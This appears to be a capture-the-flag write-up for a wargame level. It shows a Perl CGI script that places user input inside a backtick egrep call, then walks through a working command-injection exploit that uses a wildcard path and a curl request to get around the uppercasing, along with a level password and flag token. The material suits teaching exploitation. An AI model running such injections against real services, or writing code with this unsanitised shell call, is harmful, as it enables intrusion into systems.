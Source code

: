 `su level12 -> fa6v5ateaw21peobuub8ipe6s`

We have a perl script again, that is executed by flag12 and runs on port 4646.

```bash
$ cat ./level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

This script takes 2 parameter, x and y:
- x is submitted to 2 transformations, the first to uppercase it, the second one to only keep the fist word (see https://sed.js.org/)
- y is not transformed and just used in the if statement `if($s =~ $nn)`, but doesn't seem exploitable

egrep is like grep but it will interpret the pattern argument.

So we can't pass our `getflag > /tmp/flag` code in x, with `curl localhost:4646/?x="getflag > /tmp/flag"`, as it will become `GETFLAG`.

As `"^$xx"` will get interpreted, we want it to be a script that getflag into a file.

Because we need our script path to match the uppercased x, we replace `/tmp/` with `/*/`, so that it will search our script in all folders and not in `/TMP/`.

```bash
$ echo "getflag > /tmp/flag" > /tmp/XD
$ chmod +x /tmp/XD
$ curl 'localhost:4646?x="`/*/XD`"'
$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

What happens here is that the Perl script will interpret ``egrep "^`/*/XD`" /tmp/test 2>&1``, so it will execute `/tmp/XD`.
